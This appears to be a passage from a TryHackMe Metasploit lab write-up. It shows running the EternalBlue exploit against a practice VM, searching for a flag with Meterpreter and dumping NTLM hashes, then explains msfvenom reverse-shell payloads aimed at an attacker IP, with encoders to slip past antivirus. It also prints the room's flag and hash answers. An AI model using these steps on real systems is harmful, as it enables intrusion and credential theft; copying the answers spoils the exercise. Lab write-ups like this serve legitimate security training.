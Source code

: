 The second target VM, incidentally, is vulnerable to EternalBlue. Launch it. Then we can do the following:
1. Run `use exploit/windows/smb/ms17_010_eternalblue`. The payload should work perfectly fine for this task.
2. Set `RHOSTS` to be the new target IP address. The `LHOST` and `LPORT` should be already set; set those if not.
3. Run the `exploit` command. After some time passes, you should have access to Meterpreter.

From there, you can see what's going on in the system. We're looking for a flag right now, so we can run `search -f flag.txt` in Meterpreter.

![image](https://github.com/user-attachments/assets/268a4912-72f7-4742-9bfe-87a7b9d96185)

After some time passes, we should be able to see the file's location. It's in `C:\Users\John\Documents\flag.txt`. We can see its contents by navigating to the file with `cd` and running `cat flag.txt`.

![image](https://github.com/user-attachments/assets/ca9edf51-1b9a-48ad-b7d6-715b4043ff0b)

**[Task 5, Questio n1] What is the content of the `flag.txt` file?** - `THM-5455554845`

We can do a lot of stuff with Meterpreter. For instance, we can dump all the hashes now that we've got privileged access to the system. Running `hashdump` gives us:

![image](https://github.com/user-attachments/assets/b9483a98-65d4-4142-a3ac-14ae07c5a5db)

The password hash is the last string of characters after the colon.

**[Task 5, Question 2] What is the NTLM hash of the password of the user `pirate`?** - 8ce9a3ebd1647fcc5e04025019f4b875

## [Task 6] Msfvenom

Now let's talk about how to generate payloads. The `msfvenom` command can be used for this; it supercedes `msfpayload` and `msfencode`. This lets you build payloads in different formats and for different target systems.

Standalone payloads can be generated, or you can get a usable raw format. The `msfvenom --list formats` command can be used to list supported output formats. The command `msfvenom -p (PAYLOAD) LHOST=(ATTACKING_IP) LPORT=(ATTACKING_PORT)`. can be used as a basis for creating payloads. The `-f (FORMAT)` allows you to set the format of the payload. If you're using the raw format, you can redirect the generated code by adding `> (OUTPUT_FILE)`.

Encoders encode the payload, and this may be effective against certain antivirus software. That said, you should still use more modern obfuscation techniques or methods to inject shellcode. You can use `-e (ENCODING)` to change the encoding method.

You will need to accept incoming connections generated by `msfvenom`. When using an exploit module, this part will be handled by the exploit module automatically; the `payload options` title will appear when setting a reverse shell. The term most commonly used to receive a connection from a target is "catching a shell." Reverse shells/Meterpreter callbacks generated in `msfvenom` can be caught with a handler.

To exploit a vulnerability with `msfvenom`, you need to do the following:
1. Generate the exploit code with `msfvenom`.
2. Start Metasploit's handler.
3. Execute the code - it may be a PHP shell or something else.
